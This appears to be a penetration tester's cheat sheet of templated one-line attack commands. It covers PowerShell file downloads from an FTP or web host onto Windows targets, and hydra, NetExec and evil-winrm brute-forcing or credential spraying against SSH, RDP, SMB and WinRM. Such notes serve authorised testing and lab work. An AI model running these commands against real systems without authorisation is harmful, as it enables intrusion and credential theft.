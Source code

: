 ## file transfers - windows - transfering files via ftp
#plateform/ #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "(New-Object Net.WebClient).DownloadFile('ftp://<ip>/<file>', '<windowsOutPathWname>')""
```

## file transfers - windows - powershell web 2
#plateform/ #target/remote #port/ #protocol/ #cat/ATTACK/
```
echo "Invoke-WebRequest <TargetFileURL> -OutFile <windowsOut>"
```


## password attacks - remote - network services - evil-winrm
#plateform/linux #target/remote #port/5985 #protocol/winrm #cat/ATTACK/
```
evil-winrm -i <target-ip> -u <user/userlist> -p <password/passlist>
```

## password attacks - remote - network services - ssh bruteforce
#plateform/linux #target/remote #port/22 #protocol/ssh #cat/ATTACK/
```
hydra -<Ll> <user> -<Pp> <pass> ssh://<target-ip>
```

## password attacks - remote - network services - rdp bruteforce
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
hydra -<Ll> <user> -<Pp> <pass> rdp://<target-ip>
```

## password attacks - remote - network services - rdp nxc
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc rdp <target-ip> -u <user/userlist> -p <password/passlist>
```

## password attacks - remote - network services - rdp connect
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
xfreerdp /v:<target-IP> /u:<user> /p:<password>
```

## password attacks - remote - network services - smb nxc
#plateform/linux #target/remote #port/ #protocol/ #cat/ATTACK/
```
nxc smb <target-ip> -u <user/userlist> -p <password/passlist> --shares
```
